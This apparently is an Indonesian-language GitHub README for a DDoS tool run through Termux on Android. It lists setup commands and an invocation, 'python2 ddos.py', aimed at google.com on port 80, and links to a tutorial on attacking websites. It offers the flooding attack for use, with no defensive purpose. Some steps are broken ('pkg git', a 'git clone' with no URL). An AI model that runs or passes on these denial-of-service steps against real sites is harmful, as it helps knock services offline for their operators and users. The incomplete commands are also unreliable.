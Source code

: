 # Ddos-ByDUNIATUTORIAL
Menggunakan DDOS dengan termux bye DUNIA TUTORIAL

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone 
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 

supaya lebih jelas bisa baca artikel Cara DDOS Attack Website dengan Termux di Android dengan link di bawah ini
